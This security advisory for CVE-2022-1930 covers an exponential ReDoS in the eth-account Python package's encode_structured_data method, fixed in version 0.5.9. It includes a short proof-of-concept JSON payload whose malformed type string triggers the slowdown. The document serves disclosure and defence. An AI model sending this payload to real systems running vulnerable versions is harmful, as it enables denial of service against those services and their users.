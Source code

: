 ```yaml
---
description: CVE-2022-1930 Medium severity. Exponential ReDoS in eth-account leads to denial of service
title: eth-account ReDoS
date_published: "2022-08-11"
last_updated: "2022-08-11"
xray_id: XRAY-248681
vul_id: CVE-2022-1930
cvss: 5.9
severity: medium
discovered_by: Denys Vozniuk
type: vulnerability

---
```


## Summary

Exponential ReDoS in eth-account leads to denial of service

## Component

[eth-account](https://pypi.org/project/eth-account/)

## Affected versions

eth-account (,0.5.9), fixed in 0.5.9

## Description

An exponential ReDoS (Regular Expression Denial of Service) can be triggered in the eth-account PyPI package, when an attacker is able to supply arbitrary input to the `encode_structured_data` method

## PoC

```
{
        "types": {
                "EIP712Domain": [
                        {"name": "aaaa", "type": "$[11111111111111111111111110"},
                        {"name": "version", "type": "string"},
                        {"name": "chainId", "type": "uint256"},
                        {"name": "verifyingContract", "type": "address"}
                 ]
        }
}
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-1930)